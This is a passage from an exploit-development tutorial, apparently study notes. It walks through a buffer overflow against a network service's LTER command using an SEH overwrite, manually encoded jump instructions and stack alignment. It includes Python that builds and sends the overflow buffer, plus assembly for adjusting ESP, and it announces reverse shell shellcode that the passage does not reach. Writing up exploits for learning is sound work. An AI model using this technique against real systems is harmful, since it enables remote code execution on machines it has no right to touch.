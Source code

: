 ```python
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x41\x76\x65\x07" ## add  eax, 0x07657641
longJump += "\x05\x40\x75\x54\x06" ## add  eax, 0x06547540
longJump += "\x50"


buffer = 'A' * 3427
buffer += espAdj2
buffer += longJump
buffer += 'A' * (3514 - 3427 - len(espAdj2) - len(longJump))
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

Once we send this, we should see our encoded long jump payload get decoded and then execution eventually reach our decoded payload on the stack and take it and jump all the way back to the beginning of our `A` buffer. Let's do another before and after. 

**BEFORE**

![](/assets/images/CTP/before2.JPG)

**AFTER**

![](/assets/images/CTP/after2.JPG)

As you can see, our `CALL EBX` instruction pops out of thin air onto our stack and we eventually will pass control to it and jump back to the beginning of our `A` buffer!

### Finally, Our Last Payload
You know what time it is. It's time to do the thing we already did twice one more time, except this time, with reverse shell shellcode instead of jumps. 

Let's first align `ESP` to the absolute bottom of our padding before our encoded second jump. We land here, at `017CF20A`. 

![](/assets/images/CTP/land.JPG)

`ESP` is `017CFFB7`. 

The bottom of our `A` buffer before we hit our `espAdj2` code is `017CFF6C`. So to find out how much we need to adjust `ESP` we do: (`017CFFB7` - `017CFF6C` = `4B`). So we need to subtract `4B` from our `ESP` register value. To the Assembly:
```terminal_session
nasm > push esp
00000000  54                push esp
nasm > pop eax
00000000  58                pop eax
nasm > sub ax, 0x4b
00000000  6683E84B          sub ax,byte +0x4b
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
```
